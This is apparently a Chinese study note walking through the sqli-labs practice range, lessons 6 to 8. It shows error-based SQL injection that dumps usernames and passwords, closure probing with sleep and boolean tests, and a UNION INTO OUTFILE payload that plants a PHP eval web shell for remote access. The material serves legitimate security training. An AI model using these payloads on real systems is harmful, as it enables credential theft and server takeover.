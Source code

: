 回显：XPATH syntax error: '~id,username,password'

```mysql
最后爆数据
http://localhost/sqli-labs-master/less-6/?id=1" and 1=extractvalue(1,concat(0x7e,substr((select group_concat(username,':',password) from users),1,30))) -- -
```

------

## less-7(导出文件GET型注入)(了解*)

注意 满足该注入需要三个条件:
1.具有root权限
2.在数据库配置文件中的 配置项含有：secure_file_priv=''（注意在数据库中此项默认为secure_file_priv=null）
3.知道数据库的绝对路径
**注意：由于满足条件十分苛刻，所以很难实现所以这里的注入只作为了解** 

明确告诉我们是文件上传注入 先找闭合点是 ')) 这个闭合点不太好找 

```mysql
?id=1')) and if(1=2,sleep(0),sleep(2)) -- -
```

**如果?id=1'))闭合正确 那么后面的语句就会被执行 1=2 返回假 执行休眠2秒 其他的闭合方式都不执行**

```mysql
也可以用1=1和1=2来判断报错有没有闭合成功:
?id=1')) and 1=1 -- -
?id=1')) and 1=2 -- -
```

判断列数为三列,编写一句话木马

```mysql
这里可以偷个懒使用 @@datadir 查看目录位置作为一句话木马上传地址
http://localhost/sqli-labs-master/less-1/?id=-1' union select 1,2,@@datadir -- -
```

Your Password:K:\PHPSTUDY\phpstudy_pro\Extensions\MySQL5.7.26\data\

```mysql
http://localhost/sqli-labs-master/less-7/?id=1')) union select 1,2,"<?php @eval($_POST['what']); ?>" into outfile "K:\\PHPSTUDY\\phpstudy_pro\\WWW\\sqli-labs-master\\flag.php" -- -
```

注意这里的路径斜杠全都用 两个\   
路径为靶场的目录，into outfile 导出文件 然后通过中国蚁剑拿到shell

------

## less-8 (布尔盲注)

基于GET型的布尔盲注 闭合方式 '

```mysql
http://localhost/sqli-labs-master/less-8/?id=1' and 1=1 -- -   （注意前面要闭合）
```
